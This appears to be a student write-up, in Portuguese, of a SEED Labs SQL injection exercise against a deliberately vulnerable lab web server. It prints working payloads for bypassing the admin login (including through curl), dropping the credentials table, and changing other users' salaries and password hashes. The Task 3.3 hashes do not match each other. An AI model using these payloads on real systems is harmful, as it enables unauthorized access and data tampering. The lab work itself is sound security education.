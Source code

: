 ### SQL Injection Attack Lab

## Setup
Primeiro fomos á pasta etc e adicionamos uma nova entrada nos hosts removendo as que usavam o mesmo id '10.9.0.5' e usamos os seguintes comandos :

```bash
$ dcbuild               # docker-compose build
$ dcup                  # docker-compose up

$ dockps
eec1593df31f  www-10.9.0.5 
3a7138fb5eaf  mysql-10.9.0.6

$ docksh 3a             # Abrindo shell do MySQL container
$ mysql -u root -pdees  # Executa o MySQL com utilizador root
$ use sqllab_users;     # Seleciona o schema
```
## Tasks

### Task 1- Get Familiar with SQL Statements

A tarefa consistia em selecionar os dados do user "Alice" que realizamos com o seguinte comando : 

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```
Obtendo os dados de "Alice" :

![Task1](../images/sql1.png)

###  Task 2- SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage
Acedemos a "www.seed-server.com" atraves do container do Docker e ao ficheiro 'unsafe_home.php', onde reparamos que a query utilizada é frágilizada pois o servidor cria o comando dinamicamente com strings não sanitizadas do utilizador:

```sql
WHERE name= '$input_uname' and Password='$hashed_pwd'
```
Como apenas o campo de password é cifrado então fizemos a pesquisa usurpando o campo name , usando como input "admin'#" que vai comentar a parte da verificação feita pela password .
Assim, o código executado pelo servidor passou a ser :

```sql
SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email, nickname, Password
FROM credential
WHERE name='admin'# and Password=’$hashed_pwd’
```
Conseguimos entao fazer login com a conta do admin obtendo os dados do resto dos users:

![Task2-1](../images/sql2-1.png)

#### Task 2.2 - Login in adminstrator mode from command line

Desta vez realizamos o ataque através de um pedido GET que conforme o guiao tem o seguinte formato :
```bash
curl "www.seed-server.com/unsafe_home.php?username=USER&Password=PASS"
```
Com o mesmo input da task 2.1, apenas alterando ' e #  usando as seguintes convenções: %27 = ' e %23 = # , obtivemos o comando malicioso:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Obtivemos o código HTML de toda a página que contendo os dados pessoais dos users:

![Task2-2](../images/sql2-2.png)


#### Task 2.3 - Append a new SQL statement

Podemos adicionar novos comandos SQL usando ";". Para isso, modificamos no nosso input malicioso inicial para que ocorresse um side-effect no servidor. Por exemplo eliminar a tabela das credenciais:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

No entanto não foi possivel executar devido a um erro na base de dados:

![Task2-3](../images/sql2-3.png)

Segundo a seguinte [fonte](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão de MySQL usada pelo PHP do servidor tem uma proteção que impede a execução de múltiplas queries, o que impossibilitou a conclusão do ataque.

### Task 3 - SQL Injection Attack on UPDATE Statement

#### Task 3.1 - Modify your own salary

Após dar login com uma conta do sistema name = Alice, password = seedalice, tivemos acesso a uma página para editar os dados pessoais. Esta vem apartir do ficheiro disponibilizado `unsafe_edit_backend.php`, que contém uma query formada dinamicamente com strings não sanitizadas do utilizador.

No nosso ataque utilizamos o campo "phone number" ,que usando a mesma técnica da task 2.1  obtivemos o seguinte código que pode manipular o salário do utilizador:

```sql
911111111',Salary='9999999
```

Manipulando o uso de ' para fechar o campo "phone number" e abrir para o campo Salary , aproveitando o ' proveniente do codigo sql no ficheiro antes do  WHERE. 

Executando o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='9999999' WHERE ID=$id;
```


Assim, a variável "Salary" foi também alterada para o valor escolhido:

![Task3-1](../images/sql3-1.png)

#### Task 3.2 - Modify other people’ salary

Para alterar o valor do salário de outro utilizador usamos uma técnica semelhante,apenas criamos uma WHERE clause diferente, comentando a que estava no sistema de modo a não interferir na pesquisa:

```sql
933667378',Salary='-9999999' WHERE Name='Boby'#
```

Executando o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378',Salary='-9999999' WHERE Name='Boby'# WHERE ID=$id;
```

Aqui podemos ver o salário do Boby depois do ataque:

![Task3-2](../images/sql3-2.png)

#### Task 3.3 - Modify other people’ password

Para alterar a password de outro utilizador usamos uma técnica parecida com a anterior. Desta vez o valor a modificar foi cifrado com criptografia SHA1. 
Para a nova palavra-passe usamos: `bobword` cujo o hash é `9eda1edd513aff89885c775767de8f98b998dbda`.

```sql
912345678', password='9eda1edd513aff89885c775767de8f98b998dbda' WHERE name='Boby'#
```

Executando o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='933667378', password='73335c221018b95c013ff3f074bd9e8550e8d48e' WHERE name='Boby'# WHERE ID=$id;
```

Com a nova palavra passe alterada, conseguimos entrar na conta do Boby e ver os seus dados:

![Task3-3](../images/sql3-3.png)
